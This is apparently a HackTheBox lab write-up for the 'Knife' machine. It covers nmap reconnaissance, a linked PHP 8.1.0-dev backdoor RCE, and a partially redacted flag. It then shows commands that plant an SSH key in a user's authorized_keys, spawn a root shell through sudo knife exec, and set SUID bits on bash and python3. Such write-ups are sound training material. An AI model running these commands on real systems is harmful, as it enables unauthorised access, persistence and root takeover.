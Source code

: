 ```yaml
---
title: "Knife"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2021-06-04 07:38:32 +05:30
categories: [Writeups, HackTheBox]
img_path: /assets/img/writeups/knife/
tags: [HTB, PHP, Knife]
render_with_liquid: false
---
```


## Recon & Enumeration

- `nmap -Pn -p- -A 10.10.10.242`

```
10.10.10.242:22 => OpenSSH 8.2p1 Ubuntu
10.10.10.242:80 => Apache httpd 2.4.41
```

- Wappalyzer shows PHP 8.1 version. 
- Burp Repeater will also reveal the PHP version information in server headers. 

![Burp Suite Repeater reveals PHP version.png](knife_burp_repeater_reveals_php_version.png)

---

## Exploitation

- Google: `php 8.1 0 dev exploit` 
- [PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution](https://www.exploit-db.com/exploits/49933) 
- `687da428-----------77b683b1c`

- Get ssh files from `/home/james/.ssh`
- `ssh-keygen` on Kali VM to make your own `id_rsa.pub` and then paste its content in victim Knife's `/home/james/.ssh/authorized_key` file. 
- On Kali: `ssh -i ~/.ssh/id_rsa james@10.10.10.242`
- I can ssh into Knife with my own private `id_rsa` key as I've added my `id_rsa.pub` key to `/home/james/.ssh/authorized_key`
- `sudo /usr/bin/knife exec`
- Starts an interactive Knife shell. 

---

## Privilege Escalation

- `sudo -l` shows we can run `/usr/bin/knife` as root without password.
- Went to [Knife docs](https://docs.chef.io/workstation/knife_exec/) and knife has an `exec` command. 
- `sudo /usr/bin/knife exec`
- `sudo /usr/bin/knife exec -e 'sudo ruby -e exec "/bin/bash";'` 
- `system('chmod +s /bin/bash')` in interactive shell. 
- Press enter and then `Ctrl+D` to exit. 
- `ls -la /bin/bash` 
- `bash` now has SUID 
- `bash -p` <span class="fat-arrow">=></span> root!
- Try other commands as well like 
- `sudo /usr/bin/knife exec -e 'sudo ruby'`
- We can also set SUID on `python3'`
- `system('chmod +s /usr/bin/python3')` in interactive shell, `Ctrl+D`. And then: 
- `python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

![HTB Knife Privilege Escalation](htb_knife_privilege_escalation_root.png)

